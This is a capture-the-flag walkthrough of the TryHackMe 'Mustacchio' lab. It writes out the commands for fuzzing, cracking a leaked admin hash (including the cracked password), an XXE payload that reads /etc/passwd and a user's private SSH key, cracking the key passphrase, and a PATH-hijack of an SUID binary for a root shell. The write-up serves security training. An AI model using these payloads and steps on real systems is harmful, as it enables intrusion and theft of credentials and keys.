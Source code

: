 +++
title = 'Mustacchio Walkthrough | Try Hack Me | Ally Petitt'
date = 2022-02-18
draft = false
+++
![](https://cdn-images-1.medium.com/max/800/1*F19asfqgh7o-jFDVwsTizA.png)

**Introduction**
================

Hey everyone! This is a write-up of how I was able to pwn the Mustacchio machine. I hope you enjoy!

Notes:   
* This was done on a Kali Linux machine so the commands might be slightly different if you are on Windows

**Enumeration**
===============

To begin, I scanned for open ports using [RustScan](https://github.com/RustScan/RustScan). RustScan, for those who have never heard of it, is essentially a much faster version of Nmap. You can use Nmap if you prefer. My results were as follows:

`PORT STATE SERVICE REASON VERSION  
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)  
80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))  
| http-robots.txt: 1 disallowed entry   
|_/  
| http-methods:   
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Mustacchio | Home  
8765/tcp open http syn-ack nginx 1.10.3 (Ubuntu)  
|_http-server-header: nginx/1.10.3 (Ubuntu)  
|_http-title: Mustacchio | Login  
| http-methods:   
|_ Supported Methods: GET HEAD POST  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

As shown by this scan, there are 3 ports open. I investigated the website on port 80 first. I looked through the source code, checked for cookies, looked for linked javascript files, and tested the contact form for cross-site scripting. I found nothing interesting, so I continued to do directory enumeration using [FFUF](https://github.com/ffuf/ffuf) (you can also use Wfuzz, Gobuster, or DirBuster for this part).

`ffuf -u <http://10.10.93.193/FUZZ> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![](https://cdn-images-1.medium.com/max/800/1*erwnChNmTvF8tXrU6r_S-Q.png)
The custom directory looks interesting. I noticed it earlier when I was looking at the linked JavaScript files. Let’s investigate.

![](https://cdn-images-1.medium.com/max/800/1*V_As8mpAktOxs0GjknBnAw.png)
And we have access to these files! I went inside the JavaScript file and found a file called users.bak. I downloaded the file and ran the strings command on it.

`$ strings users.bak   
SQLite format 3  
tableusersusers  
CREATE TABLE users(username text NOT NULL, password text NOT NULL)  
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`

From this file, we have learned that they are using SQLite 3 to store their users. Now, we have a way to view the admin user in their database. Great! Before we go deeper into this, I’d like to explore the other web server running on port 8765.

![](https://cdn-images-1.medium.com/max/800/1*tmf5emcwConOrADGYV4Veg.png)
How great is this! We found the admin panel where we can log in as admin. Let’s see if we can get the admin credentials using the users.bak file.

Exploitation
============

After a few Google searches, I found out how to open this file. I used the SQLite3 CLI:

`$ sqlite3 users.bak  
SQLite version 3.36.0 2021–06–18 18:36:39  
Enter “.help” for usage hints.  
sqlite> .tables  
users  
sqlite> .dump users  
PRAGMA foreign_keys=OFF;  
BEGIN TRANSACTION;  
CREATE TABLE users(username text NOT NULL, password text NOT NULL);  
INSERT INTO users VALUES(‘admin’,’1868e36a6d2b17d4c2745f1659433a54d4bc5f4b’);  
COMMIT;`

And there is the password hash that we found when we initially used the strings command on users.bak 😂. I tried to use my best buddy John for help, but he failed me today. Instead, I resorted to hashcat to crack the password.

`$ hashcat -m 100 ./hash /usr/share/wordlists/rockyou.txt`

![](https://cdn-images-1.medium.com/max/800/1*n3kLAAUq1LNmS2DrlBHwcA.png)
And we have our password! With the newfound credentials `admin:bulldog19` I logged into the admin console on port 8765. Success! The credentials worked.

![](https://cdn-images-1.medium.com/max/800/1*0UmbX55dZohkB-gKgPoRBw.png)
While looking at the page source, two things immediately stand out to me.

1. I see a comment left by the developer
2. The name of the input box is “xml”

![](https://cdn-images-1.medium.com/max/800/1*0tRlE5e6aAO2JQcOEZREOw.png)
When I try press submit without writing anything in the textarea, I am greeted by the following alert:

![](https://cdn-images-1.medium.com/max/800/1*cD5Mov3ZH_r2YjtzfLoX3w.png)
Interesting. Maybe we can submit our own XML code to perform a reverse shell. One of the [most common XML vulnerabilities](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870) is an XML Eternal Entity (XXE) injection, so let’s test for it in this application! I used the XXE payload from this [blog post](https://cybarrior.com/blog/2019/11/28/xml-external-entity-xxe-injection-payload-list/):

`<?xml version=”1.0" encoding=”UTF-8"?>  
<!DOCTYPE comment [<!ENTITY xee SYSTEM “/etc/passwd”> ]>  
<comment>  
 <com>&xee;</com>  
</comment>`

When I type this in the text area and press “Submit”, I see the following on my screen:

![](https://cdn-images-1.medium.com/max/800/1*XQySYPmpIgWDqkmlXyx_Ag.png)
Success! This application is vulnerable to XXE injection. Let’s use this vulnerability to get our first flag.

User.txt
========

Here, we can see Barry as a user on this machine. Recalling that we found a comment regarding his SSH key in the source code, maybe we can find his private key to gain SSH access to this server. To do this, I looked inside his .ssh folder inside his home directory. I simply changed `/etc/passwd` to `/home/barry/.ssh/id_rsa` as "id\_rsa" is a common name for the file containing a private ssh key.

![](https://cdn-images-1.medium.com/max/800/1*yEC5KVva_GVYWI45nKBEfg.png)
Success! We can now see Barry’s private SSH key. If we were to directly copy-paste this from the webpage we would have formatting issues. Instead, I inspected the page and copied the key from the HTML. I then pasted it into a file called “id\_rsa\_barry”, **making sure that there is no white space**. I changed the permissions on the file using this command:

`chmod 400 id_rsa_barry`

I went to ssh into the machine and this was my result:

![](https://cdn-images-1.medium.com/max/800/1*mGKSvT93JzuxBhgxAvxBIg.png)
It seems that we need a passphrase. The passphrase should be within the private SSH key file, which we can crack using John.

`$ python3 /usr/share/john/ssh2john.py id_rsa_barry > id_rsa_barry.hash  
 $ john — wordlist=/usr/share/wordlists/rockyou.txt id_rsa_barry.hash`

![](https://cdn-images-1.medium.com/max/800/1*DFe8cHaY9rABFQoOAkr-iA.png)
Great! Now we have the passphrase to use. I used the same ssh command from before to log in and entered the passphrase that I just found. And we are in.

![](https://cdn-images-1.medium.com/max/800/1*RBrrcp7EVvjb9szz2tLUGg.png)
Privilege Escalation
====================

First, I took a look at Barry’s id.

`barry@mustacchio:~$ id  
uid=1003(barry) gid=1003(barry) groups=1003(barry)`

It appears that he is not in any groups that we could use for privilege escalation. I also used `sudo -l` to see if there are any commands that we can run as root without a password. This turned out not to be the case. Then, I checked for any SUID binaries. These are files that can run with root privileges.


```
barry@mustacchio:~$ find / -perm -4000 2>/dev/null  
/usr/lib/x86\_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/snapd/snap-confine  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/bin/passwd  
/usr/bin/pkexec  
/usr/bin/chfn  
/usr/bin/newgrp  
/usr/bin/at  
/usr/bin/chsh  
/usr/bin/newgidmap  
/usr/bin/sudo  
/usr/bin/newuidmap  
/usr/bin/gpasswd  
**/home/joe/live\_log**  
/bin/ping  
/bin/ping6  
/bin/umount  
/bin/mount  
/bin/fusermount  
/bin/su
```
Interesting, “live\_log” is in Joe’s home directory. Maybe we have permission to execute it.

`barry@mustacchio:~$ cd /home/joe && ls -la  
total 28  
drwxr-xr-x 2 joe joe 4096 Jun 12 2021 .  
drwxr-xr-x 4 root root 4096 Jun 12 2021 ..  
-rwsr-xr-x 1 root root 16832 Jun 12 2021 live_log`

And we do! When I run it, it appears to launch an application.

![](https://cdn-images-1.medium.com/max/800/1*4UbZ77EZp3aHOXEHYvNonQ.png)
This isn’t very useful to us because we can’t interact with the application! Instead, I looked further into the file using the `strings` command. Additionally, I used `awk` so that we would only see the long strings that are more likely to be helpful. If nothing useful came out, then I would lower the minimum string length from 15 characters to 10 and so on because the output can often be very long.

`$ strings live_log | awk ‘length($0) > 15’`

![](https://cdn-images-1.medium.com/max/800/1*8nyN1k4x9nZpM1sGpDmSsg.png)
Interesting. There is a path to “access.log” and the full path for the `tail` command isn’t used. Maybe we can change the PATH variable so that we can use our own “tail” command that gives us root.

`$ export PATH=/tmp  
$ cd /tmp  
$ echo “/bin/bash -p” > tail  
$ /bin/chmod +x tail  
$ /home/joe/live_log  
# /usr/bin/whoami  
root  
# /bin/cat /root/root.txt  
[REDACTED]`

And it works! Since “live\_log” was an SUID binary, we were able to run it as root. We were able to redirect the path from `/usr/bin/tail` to `/tmp/tail` which allowed us to run `/bin/bash` as root, giving us a root shell.

That’s all! I hope you enjoyed my explanations. Please send me any constructive feedback [via LinkedIn](https://www.linkedin.com/in/ally-petitt-5a02aa208/). Thank you and take care!
